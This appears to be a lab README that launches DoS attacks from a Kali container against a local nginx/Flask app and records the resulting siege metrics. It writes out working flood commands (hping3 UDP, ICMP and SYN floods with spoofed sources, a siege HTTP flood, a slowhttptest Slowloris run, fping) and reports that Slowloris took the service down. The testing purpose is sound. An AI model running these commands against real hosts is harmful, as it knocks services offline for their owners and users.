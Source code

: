 # Tasks
* create attacker Kali linux container (using UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death attacks)
* create defender container
* measure attacker vs non-defended container and attacker vs properly defended container

# Additional resource
* https://pentest.blog/how-to-perform-ddos-test-as-a-pentester/

# App
Is a simple nginx ([image link](https://hub.docker.com/_/nginx)) which proxies request to Flask app that returns 200 "Ok".

# Kali Linux

Used `kalilinux/kali-rolling` see [link](https://www.kali.org/docs/containers/using-kali-docker-images/)

## Udp flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source --udp -p 8080 nginx
```

## ICMP flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source -1 -p 8080 nginx
```

## HTTP flood
used [siege](https://www.kali.org/tools/siege/)
```
    $ siege -b -c250 -t60s http://nginx:8080
```

## Slowloris attack
used Kali package [slowhttptest](https://www.kali.org/tools/slowhttptest/)
```
    $ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

## Syn flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 -S --flood -V -p 8080 nginx
```


## Ping of death
used [fping](https://www.kali.org/tools/fping/)
```
    $ fping -b 65510 nginx
```

# Results

Following command used to determine health of our application
```
    $ siege -d1 -c50 -t60s http://localhost:8080
```
Example normal report
```
Transactions:		        5831 hits
Availability:		      100.00 %
Elapsed time:		       59.38 secs
Data transferred:	        0.01 MB
Response time:		        0.01 secs
Transaction rate:	       98.20 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.90
Successful transactions:        5831
Failed transactions:	           0
Longest transaction:	        0.16
Shortest transaction:	        0.00
```

Also we'll monitor docker stats using [TIG stack](https://hackmd.io/@lnu-iot/tig-stack)

## standart nginx config without additional defence

* udp flood

This attack doesn't seem to affect our application (possibly because we're not listening to udp ports :D ).
The only thing we can track is increased amount of incomming traffic to nginx container:
![Screenshot from 2022-01-03 18-21-29](https://user-images.githubusercontent.com/19594637/147954476-4faface4-860d-4d0e-b1b2-3bcc42e3a565.png)


* icmp flood

This attack doesn't seem to work on nginx:1.21. Since our `siege` command reports normal results:
```
Transactions:		        5866 hits
Availability:		      100.00 %
Elapsed time:		       59.32 secs
Data transferred:	        0.01 MB
Response time:		        0.00 secs
Transaction rate:	       98.89 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.37
Successful transactions:        5866
Failed transactions:	           0
Longest transaction:	        0.11
Shortest transaction:	        0.00
```
We can only observe increase traffic on nginx container:
![Screenshot from 2022-01-03 18-35-30](https://user-images.githubusercontent.com/19594637/147955909-0c201d5c-0cc0-4139-986a-9d0f87fbc552.png)


* http flood

Using one kali linux container the only thing I could achieve is to siginficantly increase response times of the application:
```
Transactions:		        2897 hits
Availability:		      100.00 %
Elapsed time:		       59.32 secs
Data transferred:	        0.01 MB
Response time:		        0.52 secs
Transaction rate:	       48.84 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		       25.59
Successful transactions:        2897
Failed transactions:	           0
Longest transaction:	       14.40
Shortest transaction:	        0.09
```
Also we can observe increase CPU and traffic on our nginx container:
![Screenshot from 2022-01-03 18-58-40](https://user-images.githubusercontent.com/19594637/147958096-40632afc-3a05-4c6c-bd23-6d0bdfe4923e.png)


* slowloris attack

Once we've reached 1022 connection we'll successfuly DOSed our service
```
slow HTTP test status on 35th second:

initializing:        0
pending:             0
connected:           1022
error:               0
closed:              28
service available:   NO
```
And our siege command results show us that our application was unable to server requests
```
siege aborted due to excessive socket failure; you
can change the failure threshold in $HOME/.siegerc

Transactions:		         512 hits
Availability:		       33.33 %
Elapsed time:		       16.26 secs
Data transferred:	        0.00 MB
Response time:		        0.02 secs
Transaction rate:	       31.49 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.65
Successful transactions:         512
Failed transactions:	        1024
Longest transaction:	        0.07
Shortest transaction:	        0.00
```
What is really dangerous about this kind of attack is that it does not seems to be easy to track using metrics (the only spike for nginx container is RAM)
![Screenshot from 2022-01-03 18-11-12](https://user-images.githubusercontent.com/19594637/147953506-abca9fc6-685f-4faf-9e31-4055c1146df2.png)

* syn flood

Doesn't seem to bother our application availability:
```
Lifting the server siege...
Transactions:		       98327 hits
Availability:		      100.00 %
Elapsed time:		      179.49 secs
Data transferred:	        0.19 MB
Response time:		        0.36 secs
Transaction rate:	      547.81 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		      199.59
Successful transactions:       98327
Failed transactions:	           0
Longest transaction:	        3.20
Shortest transaction:	        0.00

```
